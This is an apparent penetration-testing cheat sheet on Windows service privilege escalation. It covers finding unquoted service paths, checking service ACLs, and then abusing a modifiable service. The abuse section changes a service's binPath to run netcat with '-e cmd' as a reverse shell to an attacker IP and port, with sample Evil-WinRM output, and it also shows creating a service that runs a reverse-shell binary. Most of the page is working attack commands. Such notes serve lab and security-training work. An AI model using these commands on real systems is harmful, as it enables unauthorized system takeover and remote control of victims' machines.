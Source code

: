 ```yaml
---
title: "Windows Services"
date: 2024-7-13
tags: ["Server Operators", "Active Directory", "Windows", "Privilege Escalation", "Services", "Reverse Shell", "Unquoted Service Path"]
---
```


### Check Unquoted Service Path

```console
cmd.exe /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """'
```

```console {class="sample-code"}
PS C:\Users\user1> cmd.exe /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """'
WC Assistant    WCAssistantService    C:\Program Files (x86)\Lavasoft\Web Companion\Application\Lavasoft.WCAssistant.WinService.exe    Auto 
```

### Check Service ACLs

```console
. .\Get-ServiceAcl
```

```console
"<SERVICE>" | Get-ServiceAcl | Select -ExpandProperty Access
```

```console {class="sample-code"}
PS > "SomeService" | Get-ServiceAcl | select -ExpandProperty Access

---[SNIP]---

ServiceRights     : QueryConfig, ChangeConfig, QueryStatus, EnumerateDependents, Start, Stop, Interrogate, ReadControl
AccessControlType : AccessAllowed
IdentityReference : COMPUTER-MS01\user
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

---[SNIP]---
```

<small>*Ref: [Get-ServiceAcl.ps1](https://raw.githubusercontent.com/Sambal0x/tools/refs/heads/master/Get-ServiceAcl.ps1)*</small>

### Abuse #1: Change Service Path

#### 1. Change Service Path

```console
# Assume nc.exe is uploaded
sc.exe config <SERVICE> binPath= "C:\ProgramData\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>"
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe config VSS binpath="C:\windows\tasks\nc.exe -e cmd 10.10.14.44 443"
[SC] ChangeServiceConfig SUCCESS
```

#### 2. Restart Service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
```

```console
# Start service
sc.exe start <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

### Additional: Create Service

```console
# Create a service
sc.exe create <NEW_SERVICE> binpath= C:\ProgramData\rev.exe start= auto
```

<small>*Note: there is a space after named arguments*</small>